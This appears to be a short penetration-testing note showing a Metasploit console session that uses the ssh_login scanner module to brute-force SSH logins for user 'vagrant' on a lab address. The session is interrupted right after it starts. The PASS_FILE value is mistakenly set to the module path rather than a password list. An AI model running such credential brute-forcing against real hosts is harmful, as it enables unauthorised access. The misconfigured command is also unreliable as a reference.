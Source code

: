 # Pre-requisite - [[SSH]]
- To search for default or guessable credentials, you can use the SSH Login Check Scanner auxiliary module to test SSH logins on a range of machines and report successful logins:
# Code - 
```python
msf6 auxiliary(scanner/ssh/ssh_version) > use  auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME vagrant
USERNAME => vagrant
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE  auxiliary/scanner/ssh/ssh_login 
PASS_FILE => auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.216.11
RHOSTS => 192.168.216.11
msf6 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 256
THREADS => 256
msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 192.168.216.11:22 - Starting bruteforce
^C[*] Caught interrupt from the console...
[*] Auxiliary module execution completed
```